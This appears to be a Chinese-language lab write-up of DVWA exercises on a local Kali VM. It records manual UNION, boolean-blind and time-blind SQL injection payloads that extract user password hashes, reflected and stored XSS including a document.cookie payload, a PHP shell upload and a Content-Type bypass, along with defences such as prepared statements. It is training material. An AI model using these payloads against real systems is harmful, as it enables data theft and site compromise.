# dvwa-sql-injection

## SQL注入

**📌 项目简介**

本项目记录在 DVWA（Damn Vulnerable Web Application）靶场中，手工完成 SQL 注入漏洞的检测与利用全过程。通过实战理解 SQL 注入原理、利用方式及防御方法。

**🛠 实验环境**

虚拟机：VMware 16 Pro + Kali Linux

靶场：DVWA (Damn Vulnerable Web Application)

Web 服务：Apache 2.4 + MySQL (MariaDB) + PHP 8.2

工具：浏览器、Burp Suite（可选）

**🔧 环境搭建要点**

在 Kali 中安装 LAMP 环境：sudo apt install -y apache2 mariadb-server php php-mysqli php-gd php-xml

将 DVWA 源码克隆到 /var/www/html/DVWA

配置数据库连接：config/config.inc.php 中设置数据库用户为 root，密码留空（根据实际修改）

解决 MySQL 认证问题：执行 ALTER USER 'root'@'localhost' IDENTIFIED BY '';

访问 http://127.0.0.1/DVWA/setup.php 初始化数据库

**🔍 实验步骤（安全级别：Low）**

1. 确认注入点
输入 1 正常返回；输入 1' 报错，确认存在 SQL 注入漏洞。






2. 判断字段数

使用 ORDER BY 猜测原查询的列数：
```
text
1' ORDER BY 1#   → 正常
1' ORDER BY 2#   → 正常
1' ORDER BY 3#   → 报错
```
得出字段数为 2。





3. 获取当前数据库名和用户
```
text
1' UNION SELECT database(), user()#
```
返回：dvwa 和 root@localhost。



4. 获取所有表名
```
text
1' UNION SELECT table_name, table_schema FROM information_schema.tables WHERE table_schema='dvwa'#
```
得到表：guestbook, users。



5. 获取 users 表的列名
```
text
1' UNION SELECT column_name, data_type FROM information_schema.columns WHERE table_name='users'#
```
关键列：user, password。



6. 导出用户名和密码
```   
text
1' UNION SELECT user, password FROM users#
```



（密码哈希可通过在线 MD5 解密得到明文，例如 admin 的密码为 password）

**📝 实验总结**

漏洞成因：应用程序直接将用户输入拼接到 SQL 查询中，未做任何过滤或参数化处理。

利用条件：原查询返回的列数需与 UNION 后的查询一致（此处为 2 列）。

风险：可窃取数据库中所有表的数据，甚至通过 INTO OUTFILE 写入 WebShell。

🛡 防御方法

使用参数化查询（预编译语句），示例（PHP PDO）：

```
php

$stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?");
$stmt->execute([$id]);
```

**🔗 后续计划**

完成 DVWA 的 XSS、文件上传、盲注等模块

尝试 PortSwigger 的 SQL 注入实验室


**📂 附件**

详细操作截图（见 screenshots 文件夹）

所有使用的 SQL 注入 payload 见 [payload.txt](payload.txt)


## SQL 盲注实验

### 概述

盲注（Blind SQL Injection）是指应用不返回查询结果，也不显示数据库错误，攻击者只能通过页面行为的差异（布尔盲注）或响应时间差异（时间盲注）来推断信息。DVWA 的 **SQL Injection (Blind)** 模块提供了练习环境。

### 环境准备

- DVWA 安全级别：**Low**
- 模块：**SQL Injection (Blind)**

---

### 一、布尔盲注 (Boolean-based Blind)

**原理**：通过构造条件，观察页面返回内容（如 “User ID exists” vs “MISSING”）来推断真假。

#### 1. 判断注入点
输入 `1' AND 1=1#` → 页面显示 “User ID exists in the database.”  
输入 `1' AND 1=2#` → 显示 “User ID is MISSING from the database.”  



说明存在布尔盲注。

#### 2. 猜数据库名长度
使用 `LENGTH(database())` 函数：

1' AND LENGTH(database())=1# → MISSING
1' AND LENGTH(database())=4# → EXISTS

最终得到长度 4（dvwa）。




#### 3. 猜数据库名字符
使用 `SUBSTRING` 和 `ASCII` 逐字符猜测。  
例如判断第一个字符是否为 `d`：1' AND SUBSTRING(database(),1,1)='d'# → EXISTS

也可以使用 ASCII 比较（更通用）：1' AND ASCII(SUBSTRING(database(),1,1)) > 100# → EXISTS

通过不断调整数值，最终确定 ASCII 值为 100 → 字符 `d`。



#### 4. 猜表名、列名、数据
类似方法，将 `database()` 替换为其他查询，例如：

1' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema='dvwa' AND table_name='users')=1#

若返回 EXISTS，说明 `users` 表存在。

**优点**：可靠，无需网络带宽；  
**缺点**：手工效率低，适合自动化脚本。

---

### 二、时间盲注 (Time-based Blind)

**原理**：

利用 `SLEEP()` 或 `BENCHMARK()` 等函数，根据响应时间差推断条件真假。

#### 1. 基础测试

1' AND IF(1=1, SLEEP(5), 0)# → 延迟约 5 秒
1' AND IF(1=2, SLEEP(5), 0)# → 立即响应

确认时间盲注可用。

#### 2. 结合数据猜测

1' AND IF(SUBSTRING(database(),1,1)='d', SLEEP(5), 0)#

如果延迟 5 秒，说明第一个字母是 `d`；否则立即返回。

#### 3. 其他延时函数（MySQL）
- `BENCHMARK(10000000, MD5(1))` 可替代 `SLEEP`，消耗 CPU 时间。
- 注意：`SLEEP` 在 MySQL 5.0.12 以上支持，DVWA 通常使用 MariaDB，支持该函数。

**优点**：适用于页面完全无差异的场景；  
**缺点**：速度慢，易受网络波动影响。

---

### 三、防御方式
- 使用**参数化查询（预编译语句）**，从根本上隔离数据和代码。
- 对输入进行严格过滤，但不可依赖黑名单。
- 最小权限原则，数据库用户只授予必要权限。

---

### 四、实验总结
盲注虽然隐蔽，但通过细致地利用布尔或时间差异，依然可以完整地获取数据库信息。手工练习有助于理解注入原理，实际渗透中通常借助 sqlmap 等工具自动化完成。

**相关 payload 记录**：参见 `payloads/sql_injection_payloads.txt`（盲注部分）。


# XSS Payloads (DVWA Low)

**1 XSS (Reflected) —— 反射型**

原理：输入的内容被立即拼接进页面并返回，未经过滤，导致 JavaScript 代码在受害者浏览器执行。

操作步骤：

在左侧导航栏点击 XSS (Reflected)。

在输入框中输入普通文本，如 hello，点击 “Submit”，观察页面显示 hello。

现在输入一个 JavaScript 弹窗 payload：

```
html
<script>alert('XSS')</script>
```
点击提交。如果成功，浏览器会弹出一个对话框，显示 “XSS”。

尝试另一种 payload（用于绕过简单的过滤，但在 Low 级别通常直接生效）：

```
html

```
同样会触发弹窗。



思考：反射型 XSS 通常需要诱使用户点击恶意链接，例如：
```
text
http://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<script>alert('XSS')</script>
```
可以复制这个链接到浏览器地址栏试试（注意 URL 编码问题，但 DVWA 会自动处理）。




**2 XSS (Stored) —— 存储型**
原理：输入的内容被保存到数据库，每次访问页面时都会执行，影响所有访客。

操作步骤：

点击左侧 XSS (Stored)，进入留言板页面。

在 “Name” 和 “Message” 框中先输入普通内容（如 test / test message），提交，观察留言显示。

在 “Message” 框中输入以下 payload：

```
html
<script>alert('Stored XSS')</script>
```
提交。页面会立即弹窗，并且这条留言被保存。刷新页面，弹窗再次出现，说明每次加载页面都会执行。







尝试窃取 Cookie 的 payload（展示危害）：

```
html
<script>alert(document.cookie)</script>
```
提交后，弹窗会显示当前页面的 Cookie（如果有）。



注意：如果浏览器阻止了弹窗（如 Chrome 会限制非用户触发的 alert），可以换用 console.log('xss')，然后按 F12 打开开发者工具查看控制台输出。


 ## DVWA Medium 级别绕过

### SQL 注入 (Medium)

- 防护机制：`addslashes()` 转义单引号
- 绕过方式：利用数字型注入，无需引号
- 成功 payload：
- 
  ```sql
  1 OR 1=1#
  1 UNION SELECT database(), user()#
  1 UNION SELECT user, password FROM users#
  ```
  

## 文件上传漏洞

### Low 级别

- 无限制上传，直接上传 PHP 文件，可执行。
- 上传路径：`http://127.0.0.1/DVWA/hackable/uploads/shell.php`

### Medium 级别

- 防护：仅检查 `Content-Type` 是否为 `image/jpeg` 或 `image/png`。
- 绕过：使用 Burp 拦截，将 `Content-Type` 改为 `image/jpeg`。
- 上传成功，访问文件仍可执行 PHP 代码。
